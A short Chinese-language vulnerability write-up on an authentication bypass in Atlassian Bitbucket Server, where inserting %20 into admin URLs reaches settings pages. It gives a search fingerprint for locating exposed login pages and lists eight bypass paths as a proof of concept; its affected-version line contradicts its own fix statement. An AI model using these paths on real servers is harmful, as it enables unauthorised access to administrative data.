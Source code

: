 # Atlassian Bitbucket 登录绕过漏洞

## 漏洞描述

此错误已修复并部署在 Bitbucket Server > 4.8 上。Bitbucket 由 Atlassian 团队开发。其中出现了一个通过 %20 绕过权限的漏洞，导致任意用户可获取敏感数据

## 漏洞影响

```
Bitbucket Server > 4.8
```

## 网络测绘

```
title="Log in - Bitbucket"
```

## 漏洞复现

登录页面

![](images/202205241429046.png)

验证POC

```
/admin%20/mail-server
/admin%20/db
/admin%20/db/edit
/admin%20/license
/admin%20/logging
/admin%20/server-settings
/admin%20/authentication
/admin%20/avatars
```

![](images/202205241429345.png)